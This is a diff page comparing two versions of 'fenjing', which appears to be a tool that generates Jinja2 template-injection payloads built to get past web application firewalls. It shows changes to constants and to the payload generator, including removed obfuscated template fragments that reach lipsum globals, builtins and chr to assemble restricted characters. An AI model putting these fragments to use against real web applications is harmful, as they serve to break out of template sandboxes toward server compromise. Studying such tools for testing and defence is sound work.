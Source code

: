 ```
 
 LITERAL = "literal"
 UNSATISFIED = "unsatisfied"
+WITH_CONTEXT_VAR = "with_context_var"
 ZERO = "zero"
 POSITIVE_INTEGER = "positive_integer"
 INTEGER = "integer"
 STRING_STRING_CONCNAT = "string_string_concat"
 STRING_PERCENT = "string_percent"
 STRING_PERCENT_LOWER_C = "string_percent_lower_c"
 STRING_UNDERLINE = "string_underline"
```

### Comparing `fenjing-0.3.9/fenjing/form.py` & `fenjing-0.4.0/fenjing/form.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.3.9/fenjing/form_cracker.py` & `fenjing-0.4.0/fenjing/form_cracker.py`

 * *Files identical despite different names*

### Comparing `fenjing-0.3.9/fenjing/full_payload_gen.py` & `fenjing-0.4.0/fenjing/full_payload_gen.py`

 * *Files 8% similar despite different names*

```diff
@@ -1,36 +1,37 @@
 from typing import Callable, List, Tuple, Union, Dict
 import logging
 
 from . import payload_gen
-from .int_vars import get_useable_int_vars
 from .colorize import colored
+from .context_vars import context_vars_all, filter_by_used_context, filter_by_waf
 from .const import *
 
 logger = logging.getLogger("shell_payload")
 
 
-def get_int_context(waf_func):
-    ints, var_names, payload = get_useable_int_vars(waf_func)
-    if len(ints) == 0:
-        logger.warning("No IntVars For YOU!")
-    return payload, dict(zip(var_names, ints))
-
-
-def get_str_context(waf_func):
-    str_vars = [
-        ("un", "_", "{%set un=((({}|select()|trim|list)[24]))%}"),
-        ("perc", "%", "{%set perc=(lipsum[((({}|select()|trim|list)[24]))*2" +
-         "+dict(globals=x)|join+((({}|select()|trim|list)[24]))*2]" +
-         "[((({}|select()|trim|list)[24]))*2+dict(builtins=x)" +
-         "|join+((({}|select()|trim|list)[24]))*2][dict(chr=x)|join](37))%}"),
-        # ("fc", "{:c}", "{%set fc={{{1:2}|string|replace({1:2}|string|batch(4)|first|last,{}|join)|replace(1|string,{}|join)|replace(2|string,dict(c=1)|join)}}%}")
-    ]
-    str_vars = [tpl for tpl in str_vars if waf_func(tpl[2])]
-    return "".join(payload for _, _, payload in str_vars), {var_name: var_value for var_name, var_value, _ in str_vars}
+# def get_int_context(waf_func):
+#     ints, var_names, payloads = get_passed_int_vars(waf_func)
```